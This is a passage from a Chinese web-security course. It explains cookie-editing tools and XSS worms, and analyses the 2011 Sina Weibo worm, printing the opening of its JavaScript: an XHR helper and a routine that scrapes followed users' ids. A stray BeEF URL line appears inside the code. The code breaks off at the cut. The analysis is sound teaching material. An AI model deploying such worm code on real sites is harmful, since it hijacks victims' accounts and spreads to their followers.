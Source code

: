 







<p data-nodeid="53212"><img src="https://s0.lgstatic.com/i/image2/M01/04/3F/CgpVE1_r7hmATCQBAAHhyKThdOI750.png" alt="图片13.png" data-nodeid="53431"></p>
<div data-nodeid="53213"><p style="text-align:center">图 21：EditThisCookie</p></div>
<p data-nodeid="53214">还有另一款早期业界比较常用的工具，叫“桂林老兵 Cookie 欺骗工具”，以及在《01 | 武器库：常用的渗透测试工具》中介绍的 Burp Suite，它们均支持修改 Cookie。</p>
<h4 data-nodeid="53215">蠕虫攻击</h4>
<p data-nodeid="53216">前面我介绍了 Samy 蠕虫，但并没有谈到XSS 蠕虫的实现技术。XSS 蠕虫的实现正是得益于Ajax 技术的出现，而后者正是 Web2.0 的标志性技术。</p>
<p data-nodeid="53217">Ajax（Asynchronous JavaScript and XML，异步 JavaScript 和 XML）是指一种<strong data-nodeid="53442">创建交互式网页应用的网页开发技术</strong>。这个概念比较抽象，具体讲就是在我们浏览网页，做一些操作时，可以减少浏览器的一些页面重绘操作，避免出现页面抖动、闪现之类的不适体验。这也正是 Web2.0 带来的改变。</p>
<p data-nodeid="53218">Ajax 中的核心技术就是 XMLHttpRequest，它允许 JavaScript 脚本与服务器进行通信，在不刷新页面的情况下，向服务器发送请求或是接收服务器的响应数据。</p>
<p data-nodeid="53219">下面我以之前影响比较大的新浪微博 XSS 蠕虫攻击事件为例，介绍 Ajax 技术在 XSS 蠕虫中的应用，从攻击代码来详细讲解。</p>
<p data-nodeid="53220"><img src="https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOu-AUgG8AAMoVNqvtj8470.png" alt="Drawing 21.png" data-nodeid="53447"></p>
<div data-nodeid="53221"><p style="text-align:center">图 22   ：新浪微博上感染 XSS 蠕虫的用户</p></div>
<p data-nodeid="53222">2011年 6 月 28 日，新浪微博遭受 XSS 蠕虫的攻击，很多受害者被迫发布带有攻击链接的私信和微博。这些消息都带有一定的诱惑性，其他用户点击后也会此影响。受害者在感染后，都会自动关注一位名为“hellosamy”的微博用户（估计是效仿 Samy 蠕虫），然后向关注受害者的用户发送含有同样链接地址的私信，并发布含攻击链接的微博。得益于这种传播方式，在16 分钟内病毒就感染了33000 个用户。</p>
<p data-nodeid="53223">我们来分析下新浪微博的 XSS 蠕虫代码：</p>
<pre class="lang-javascript" data-nodeid="53224"><code data-language="javascript"><span class="hljs-comment">// 创建 XMLHttp 对象用于收发请求</span>
<span class="hljs-function"><span class="hljs-keyword">function</span>&nbsp;<span class="hljs-title">createXHR</span>(<span class="hljs-params"></span>)</span>{&nbsp;
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">return</span>&nbsp;<span class="hljs-built_in">window</span>.XMLHttpRequest?
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">new</span>&nbsp;XMLHttpRequest():
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">new</span>&nbsp;ActiveXObject(<span class="hljs-string">"Microsoft.XMLHTTP"</span>);
}
<span class="hljs-function"><span class="hljs-keyword">function</span>&nbsp;<span class="hljs-title">getappkey</span>(<span class="hljs-params">url</span>)</span>{
&nbsp;&nbsp;&nbsp;&nbsp;xmlHttp&nbsp;=&nbsp;createXHR();
&nbsp;&nbsp;&nbsp;&nbsp;xmlHttp.open(<span class="hljs-string">"GET"</span>,url,<span class="hljs-literal">false</span>);&nbsp;<span class="hljs-comment">//获取 AppKey 不采用异步执行,等待请求返回 </span>
&nbsp;&nbsp;&nbsp;&nbsp;xmlHttp.send();
&nbsp;&nbsp;&nbsp;&nbsp;result&nbsp;=&nbsp;xmlHttp.responseText;
&nbsp;&nbsp;&nbsp;&nbsp;id_arr&nbsp;=&nbsp;<span class="hljs-string">''</span>;
    <span class="hljs-comment">// 正则匹配出 AppKey 数组,包含每个被收听用户的 uid&nbsp;</span>
&nbsp;&nbsp;&nbsp;&nbsp;id&nbsp;=&nbsp;result.match(<span class="hljs-regexp">/namecard=\"true\"&nbsp;title=\"[^\"]*/g</span>);
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;https:<span class="hljs-comment">//beefproject.com/</span>
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">for</span>(i=<span class="hljs-number">0</span>;i&lt;id.length;i++){
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sum&nbsp;=&nbsp;id[i].toString().split(<span class="hljs-string">'"'</span>)[<span class="hljs-number">3</span>];  <span class="hljs-comment">//重新提取整理</span>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;id_arr&nbsp;+=&nbsp;sum&nbsp;+&nbsp;<span class="hljs-string">'||'</span>;
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">return</span>&nbsp;id_arr;
}
<span class="hljs-function"><span class="hljs-keyword">function</span>&nbsp;<span class="hljs-title">random_msg</span>(<span class="hljs-params"></span>)</span>{
